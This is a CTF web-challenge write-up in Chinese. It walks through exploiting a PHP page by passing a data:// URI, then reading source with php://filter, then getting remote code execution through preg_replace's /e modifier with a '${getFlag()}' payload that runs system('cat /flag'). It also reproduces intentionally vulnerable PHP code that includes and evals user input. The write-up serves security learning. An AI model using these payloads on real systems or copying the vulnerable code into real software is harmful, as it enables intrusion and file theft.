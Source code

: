 ![[Pasted image 20221115160913.png]]
```php
<?php
error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }
    
    include($file);  //next.php
}
else{
    highlight_file(__FILE__);
}
?>
```
---
```shell
/?text=data://text/plain,I have a dream&file=next.php
```
![[Pasted image 20221115161441.png]]

话说回来如果我这样写的话不是还不如直接访问`next.php`嘛QwQ
```shell
/?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

> PD9waHAKJGlkID0gJF9HRVRbJ2lkJ107CiRfU0VTU0lPTlsnaWQnXSA9ICRpZDsKCmZ1bmN0aW9uIGNvbXBsZXgoJHJlLCAkc3RyKSB7CiAgICByZXR1cm4gcHJlZ19yZXBsYWNlKAogICAgICAgICcvKCcgLiAkcmUgLiAnKS9laScsCiAgICAgICAgJ3N0cnRvbG93ZXIoIlxcMSIpJywKICAgICAgICAkc3RyCiAgICApOwp9CgoKZm9yZWFjaCgkX0dFVCBhcyAkcmUgPT4gJHN0cikgewogICAgZWNobyBjb21wbGV4KCRyZSwgJHN0cikuICJcbiI7Cn0KCmZ1bmN0aW9uIGdldEZsYWcoKXsKCUBldmFsKCRfR0VUWydjbWQnXSk7Cn0K

解码后长这样
```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
有一个`getFlag()`函数，但是应该怎么调用它呢......

乍一看枚举、正则替换、回显一气呵成，貌似并没有机会

但是细看发现`preg_replace`中的正则表达式有一个没有见过的修饰符`e`

结果翻了半天官方文档也没翻到这个修饰符

翻谷歌发现这玩意早在`php 5.5.0`时代就被弃用，在`7.0.0`中被移除

查看响应中的`X-Powered-By`头，其值为`PHP/5.6.40`，刚好可以使用`e`修饰符
> 如果设置了这个被弃用的修饰符，[preg_replace()](https://www.php.net/manual/zh/function.preg-replace.php) 在进行了对替换字符串的后向引用替换之后, 将替换后的字符串作为`php`代码评估执行(`eval`函数方式)，并使用执行结果 作为实际参与替换的字符串。单引号、双引号、反斜线（`\`）和 NULL 字符在后向引用替换时会被用反斜线转义。

`'strtolower("\\1")'`中使用的是双引号，这意味着可以内插变量，利用这一点插入对`getFlag`的调用

对于`$re`，参考佬的wp，使用`\S*`以匹配所有非空白字符，同时避免`php`对某些特殊字符的处理
```php
/next.php?\S*=${getFlag()}&cmd=system('cat /flag');
```
> flag{a1a7ed7e-d4a8-403c-8d74-d1da5f631dd2} system('cat /flag');

#Web #PHP #函数 #伪协议 #RCE #正则表达式 #可变变量